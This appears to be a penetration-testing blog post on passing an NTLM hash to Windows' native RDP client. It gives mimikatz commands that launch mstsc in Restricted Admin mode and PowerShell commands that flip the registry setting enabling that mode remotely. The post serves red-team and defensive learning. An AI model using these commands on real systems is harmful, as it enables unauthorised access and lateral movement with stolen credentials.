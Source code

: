 +++
date = "2018-05-06"
title = "Passing the hash with native RDP client (mstsc.exe)"
tags = ["RDP", "mimikatz", "pass the hash", "pth"]
+++

*__TL;DR:__ If the remote server allows Restricted Admin login, it is possible to login via RDP by passing the hash using the native Windows RDP client `mstsc.exe`. (You'll need mimikatz or something else to inject the hash into the process)*

On engagements it is usually only a matter of time to get your hands on NTLM hashes. 
These can usually be directly used to authenticate against other services / machines and enable lateral movement. 
Powershell / PSExec, SMB and WMI are usual targets to pass the hash to, but it is also possible to use it to establish a RDP session on a remote host. 
Searching the Internet on how to do this unfortunately always leads to [using xfreerdp](https://www.kali.org/penetration-testing/passing-hash-remote-desktop/), but I wasn't able to find anything on the Internet regarding how to do this directly using the provided RDP client `mstsc.exe`, so I had to find out on my own.

![Don't let your dreams be dreams](/img/shia.gif)

# How does it work?

Interestingly, it was quite easy to find out, so here is how to do it with `mimikatz` (you'll need local admin):

```
sekurlsa::pth /user:<user name> /domain:<domain name> /ntlm:<the user's ntlm hash> /run:"mstsc.exe /restrictedadmin"
```

This will open a new RDP window. If it still shows the user you are currently logged on with, just ignore it - everything will just work ;-)

Enter the domain name / IP of the target server and if the target server allows [Restricted Admin Mode](https://blogs.technet.microsoft.com/kfalde/2013/08/14/restricted-admin-mode-for-rdp-in-windows-8-1-2012-r2/), you will be logged in, otherwise the server will tell you that you are not allowed to log in.

# Why does it work?

RDP Restricted Admin Mode builds upon Kerberos. Taking a look at the network traffic, one can see that the RDP client requests a ticket on behalf of the impersonated user which is no problem since the hash is all we need to authenticate against Kerberos.

# Restricted Admin Mode is disabled, what can I do?

A [registry key](https://social.technet.microsoft.com/wiki/contents/articles/32905.remote-desktop-services-enable-restricted-admin-mode.aspx) controls if a server accepts Restricted Admin sessions. If you have the NTLM hash of a user that has privileges to set registry keys, you can use for example Powershell to enable it and log in via RDP afterwards:

```Powershell
mimikatz.exe "sekurlsa::pth /user:<user name> /domain:<domain name> /ntlm:<the user's ntlm hash> /run:powershell.exe"
``` 
A new Powershell window will pop up:
```Powershell
Enter-PSSession -Computer <Target>
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin" -Value "0" -PropertyType DWORD -Force
```
Now, your RDP should work fine. 

![Young Luke Skywalker It's working gif](/img/young_luke.gif)


